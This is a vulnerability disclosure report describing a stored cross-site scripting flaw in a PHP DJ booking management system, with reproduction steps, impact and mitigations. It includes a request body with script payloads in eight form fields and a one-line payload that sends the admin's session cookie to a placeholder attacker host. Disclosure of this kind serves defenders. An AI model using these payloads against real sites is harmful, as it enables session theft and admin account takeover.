










# Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/view-booking-detail.php`, `/invoice-generating.php`                       |
| **Affected File(s)**    | `odms/admin/view-booking-detail.php`, `odms/admin/invoice-generating.php`   |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user—often an administrator—views the stored data, the script is executed in their browser.

In this case, **anyone can submit an event request** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that booking request, the script executes in their browser, potentially leading to:

- Cookie theft
- Session hijacking
- Unwanted actions performed on behalf of the admin

## Steps to Reproduce

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS).  
> **For privacy reasons, I'm hiding the domain name.**

1. **Book the service using the following URL:**

    ```
    https://domain.com/book-services.php?bookid=1
    ```

    

    Fill in test data and capture the request using **Burp Suite**.

2. **Edit the request parameters with XSS payloads.**

    Affected parameter names:

    - `name`
    - `email`
    - `edate` (event date)
    - `est` (event start time)
    - `eetime` (event end time)
    - `vaddress` (venue address)
    - `eventtype` (event type)
    - `addinfo` (additional info)

    Example request with payloads:

    ```javascript
    name=<script>alert("from-name")</script>&
    email=<script>alert("from-email")</script>%40gmail.com&
    mobnum=123&
    edate=<script>alert("from-date")</script>&
    est=<script>alert("from-start-time")</script>&
    eetime=<script>alert("from-end-time")</script>&
    vaddress=<script>alert("from-address")</script>&
    eventtype=<script>alert("from-type")</script>&
    addinfo=<script>alert("from-add-info")</script>&
    submit=Book
    ```

    

3. **Log into the admin account and navigate to the new bookings page:**

    Sidebar → **BOOKING** → **New Booking**

    ```
    https://domain.com/admin/new-booking.php
    ```

    

4. **Click the "View" button on the submitted booking.**

    The XSS payloads will trigger with JavaScript `alert()` pop-ups for each infected field.

      
      
      
      
    *(Additional alerts appear for End Time, Address, Event Type, and Additional Info.)*

5. **Click the "Update" button on the booking.**

    

6. **Navigate to the approval bookings page:**

    Sidebar → **BOOKING** → **Approval Booking**

    

7. **Click the "Invoice" button.**

    The same XSS payloads will trigger again, one per infected field.

    


## Impact of Stored XSS

- Any user (no authentication required) can submit a booking with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and the data is stored in the system.
- When the **admin views the booking** in the dashboard, the malicious script is executed in the admin's browser.
- This can lead to **admin account takeover** by stealing the session cookie using a simple payload like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- Once the attacker obtains the admin's cookie, they can impersonate the admin and gain full access to the system.

---

## ✅ Recommended Mitigations

- **Input Sanitization**  
  Strip or escape HTML/JavaScript tags from all user inputs before storing them.

- **Output Encoding**  
  Always encode data before rendering it in the browser (e.g., using `htmlspecialchars()` or the equivalent in your framework).

- **Use Templating Engines That Auto-Escape Output**  
  Leverage modern PHP templating engines that escape output by default:
  - **Twig**: `{{ name }}` auto-escapes output.
  - **Blade (Laravel)**: `{{ $name }}` also auto-escapes output.

- **Content Security Policy (CSP)**  
  Implement a strong CSP header to restrict execution of unauthorized scripts.

- **HTTPOnly Cookies**  
  Ensure session cookies are marked as `HttpOnly` to prevent access via JavaScript.

- **Input Validation**  
  Validate input type, format, and length to reject suspicious or unnecessary data.

---

## 📚 References

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

